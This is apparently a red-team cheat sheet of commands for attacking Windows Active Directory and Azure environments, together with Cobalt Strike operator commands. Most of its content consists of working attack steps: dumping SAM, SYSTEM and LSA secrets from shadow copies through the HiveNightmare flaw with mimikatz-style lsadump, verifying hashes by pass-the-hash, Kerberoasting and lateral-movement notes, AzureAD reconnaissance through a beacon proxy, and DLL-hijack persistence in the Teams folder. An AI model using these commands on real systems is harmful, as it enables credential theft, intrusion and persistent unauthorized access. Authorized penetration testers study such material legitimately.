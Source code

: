 ###### <font style="color:#00b3ff">Kali Attacker Machine Terminal logging with timestamp</font> 

```
script -f >(while read;do date;echo "$REPLY";done >>session.log)
```


###### <font style="color:#00b3ff">Active Directory attack</font> 

```
- Kerberoast TGS:
	- cracks the passwd of the account that runs the associated SPNs

- Lateral Movements:
	- RDP / PSREMOTING / WINRM / PSEXEC 
	- depending on the SPN running on the targeted machine

- Hive Nightmare/Serious SAM:
	-> icacls \windows\system32\config\SAM
	-> invoke-imimi -command '"misc::shadowcopies"'
	-> invoke-imimi -command '"lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM"' 

	-> invoke-imimi -command '"lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SECURITY"'


- Verify the hash extracted
	-> Invoke-SMBclient -hash <NTLM_Hash> -domain myLaptop -username myUser -souce \\127.0.0.1\print$  -verbose

- PrintNightmare
	- check registry "point and print", "lua" set to 0x1, 0x2, 0x1

- AzureAD Cloud reco:
	-> SOCKS proxy with the beacon
	-> proxychains powershell:
		-> Connect-AzAccount -Credential $creds

- ShadowCoerce:
	- https://pentestlaboratories.com/2022/01/11/shadowcoerce/
```


###### <font style="color:#00b3ff">Cmds Cobalt Strike</font> 

```
- get userid
	-> getuid

- Get domain password policy:
	-> get_password_policy myDC.mydomain.com

- Copy file for persistence:
	-> cp c:\\users\\joe\\cryptbase.dll c:\\users\\joe\\appdata\\local\\microsoft\\teams\\current\\cryptbase.dll
```

